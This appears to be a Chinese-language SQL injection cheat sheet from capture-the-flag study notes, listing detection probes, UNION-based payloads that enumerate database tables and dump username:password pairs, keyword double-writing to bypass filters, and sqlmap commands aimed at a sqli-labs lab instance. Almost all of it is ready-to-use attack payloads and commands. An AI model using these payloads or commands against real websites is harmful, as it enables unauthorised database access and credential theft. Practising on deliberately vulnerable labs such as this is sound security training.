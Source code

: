 # SQL注入

* ### 注入尝试

```
http://newspaper.com/items.php?id=2 //正常回显
http://newspaper.com/items.php?id=2 and 1=2 //提示报错或者未搜索到
http://newspaper.com/items.php?id=2 and 1=1 //正常回显
```

则可以执行注入，注入点为?id=

* ### 开始注入

Payload构造：

```
id=2'; show database;#
id=-1' order by 1#   //利用order by 1/2/3/4 查询列数
id=-1' union select 1,2,3,4,...,n#   //联合注入查看返回值（n为order by已确定的列数）
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#   //爆database里面的表
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#    //爆users表里面的字段
id=-1' union select 1,2,group_concat(username,0x3a,password) from users#    //爆值，最后输出以username:password格式输出
```

* ### 盲注
* ### Bypass

有一些题目中不需要用单引号闭合直接进行执行

一些题目中需要单引号加括号应对\('id'\)语句

一些题目中需要进行双引号加括号 --&gt; \("id"\)

或者双写绕过

```
union select --> uniunionon selselectect
```

* ### SQLMAP

sqlmap语句

```
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security(数据库名) --tables --batch -v 0    //爆表
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users（表名） --columns --batch -v 0    //爆字段
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users -C username,password（字段名） --dump --batch -v 0    //爆值

```



